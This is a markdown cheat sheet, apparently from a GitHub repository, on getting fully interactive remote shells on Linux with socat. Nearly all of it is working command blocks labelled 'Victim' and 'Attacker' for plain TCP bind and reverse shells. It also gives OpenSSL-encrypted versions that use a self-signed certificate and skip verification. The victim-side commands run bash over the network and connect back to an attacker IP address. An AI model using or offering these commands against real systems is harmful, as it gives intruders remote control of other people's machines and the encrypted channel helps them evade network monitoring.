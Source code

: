 # Introduction
A great tool for having full interactive reverse and bind shells. I am assuming that we are using socat on Linux and not Windows.

## Installation on Ubuntu
```bash
sudo apt update && sudo apt install socat -y
```
## Usage
### Bind shell
We must first listen on the victim's machine.

Victim
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:4444
```

And now we connect as an attacker to the victim's machine.

Attacker
```bash
socat file:`tty`,raw,echo=0 tcp:192.168.92.134:4444
```

> [!WARNING]
> 192.168.92.134 is the IP of the victim, make sure to change the IP to the one you want.
### Reverse shell
We must first listen on the attacker's machine.

Attacker
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

And now the victim's machine connects to the attacker.

Victim
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.92.129:4444
```

> [!WARNING]
> 192.168.92.129 is the IP of the attacker, make sure to change the IP to the one you want.

### Encrypted Shells
Replace `tcp` with `openssl`
Generate certificate
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Combine into PEM file
```bash
cat shell.key shell.crt > shell.pem
```
#### Reverse shell
Set up our reverse shell listener
Attacker
```bash
socat file:`tty`,raw,echo=0 openssl-listen:4444,cert=shell.pem,verify=0
```
Certificate _must_ be used on whichever device is listening
`verify=0`  not bother trying to validate that our certificate has been properly signed by a recognized authority
To connect back
Victim
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane openssl:192.168.92.129:4444,verify=0
```
#### Bind shell
Victim
```bash
socat openssl-listen:4444,cert=shell.pem,verify=0 exec:'bash -li',pty,stderr,setsid,sigint,sane
```
Attacker
```bash
socat file:`tty`,raw,echo=0 openssl:192.168.92.134:4444,verify=0
```